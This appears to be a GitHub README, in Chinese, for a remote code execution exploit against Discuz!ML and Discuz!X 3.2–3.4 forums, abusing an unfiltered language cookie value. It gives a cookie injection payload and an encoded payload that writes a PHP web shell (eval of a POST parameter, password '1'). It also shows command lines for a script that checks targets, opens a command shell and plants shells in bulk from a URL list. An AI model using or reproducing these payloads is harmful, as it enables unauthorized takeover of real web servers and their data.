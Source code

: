 # discuz-ml-rce
影响系统及版本：Discuz!ML V3.2-3.4 Discuz!x V3.2-3.4
漏洞原因：Discuz!ML 系统对cookie中的l接收的language参数内容未过滤，导致字符串拼接，从而执行php代码。




cookie字段中会出现xxxx_xxxx_language字段，根本原因就是这个字段存在注入，导致的RCE

抓包找到cookie的language的值修改为

xxxx_xxxx_language=sc'.phpinfo().'


getshell

%27.%2Bfile_put_contents%28%27shell.php%27%2Curldecode%28%27%253C%253Fphp%2520eval%2528%2524_POST%255B%25221%2522%255D%2529%253B%253F%253E%27%29%29.%27
实际为：

'.+file_put_contents('shell.php',urldecode('<?php eval($_POST["1"]);?>')).'



即可在路径下生成shell.php，连接密码为1



==============================================================================================================================================================
判断是否存在漏洞

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php"


cmdshell模式

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php" --cmdshell


getshell模式

python dz-ml-rce.py -u "http://www.xxx.cn/forum.php" --getshell


批量检测

python dz-ml-rce.py -f urls.txt


批量getshell

python dz-ml-rce.py -f urls.txt --getshell




